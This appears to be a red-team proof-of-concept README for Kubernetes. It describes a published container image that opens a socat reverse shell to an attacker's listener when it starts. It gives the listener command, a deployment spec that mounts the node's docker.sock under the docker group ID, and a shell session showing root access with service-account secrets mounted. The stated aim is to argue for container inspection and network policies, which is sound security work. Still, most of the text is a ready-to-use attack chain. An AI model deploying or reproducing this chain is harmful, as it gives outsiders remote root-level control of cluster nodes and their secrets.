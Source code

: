 This is a proof of concept aimed to demonstrate the need to implement containter inspection, network security policies, etc. in a Kubernetes cluster. Also a reminder to always review carefully what a docker container or kubernetes deployment /helm chart.

This deployment launches a docker container available in docker hub as below:

    docker pull jordimiralles/redteam-gkpown:latest

Whem the docker container starts it sends a reverse shell with socat to the specified addres and port. If your destination server is listening for that connection, like this, for example: 

        socat file:`tty`,raw,echo=0 tcp-listen:9532

At this point we have direct access to the docker. The fun part of the deal though is that the deployment also assigned the container the same security group id as the kubernetes nodes, like this:

        spec:
          securityContext:
            fsGroup: 412    # Group ID of docker group on k8s nodes.
          containers:
            - name: gkpown
              image: jordimiralles/redteam-gkpown
              imagePullPolicy: Always
              volumeMounts:
                - name: dockersock 
                  mountPath:   "/var/run/docker.sock"
          volumes:
          - name: dockersock 
            hostPath:
    path: /var/run/docker.sock

So we should have access to all the node context.You can check it very easily:
    
    tux at basecamp in ~/code/github/redteam-gkpown (master●●)
    $  socat file:`tty`,raw,echo=0 tcp-listen:9532
    /bin/sh: can't access tty; job control turned off
    /gkpown # 
    /gkpown # 
    /gkpown # 
    /gkpown # 
    /gkpown # whoami
    root
    /gkpown # df -h
    Filesystem                Size      Used Available Use% Mounted on
    overlay                  25.4G     18.3G      7.0G  72% /
    tmpfs                     6.4G         0      6.4G   0% /dev
    tmpfs                     6.4G         0      6.4G   0% /sys/fs/cgroup
    /dev/sda1                25.4G     18.3G      7.0G  72% /dev/termination-log
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/resolv.conf
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/hostname
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/hosts
    shm                      64.0M         0     64.0M   0% /dev/shm
    tmpfs                     6.4G      2.0M      6.4G   0% /run/docker.sock
    tmpfs                     6.4G     12.0K      6.4G   0% /run/secrets/kubernetes.io/serviceaccount
    tmpfs                     6.4G         0      6.4G   0% /proc/kcore
    tmpfs                     6.4G         0      6.4G   0% /proc/timer_list
    tmpfs                     6.4G         0      6.4G   0% /sys/firmware
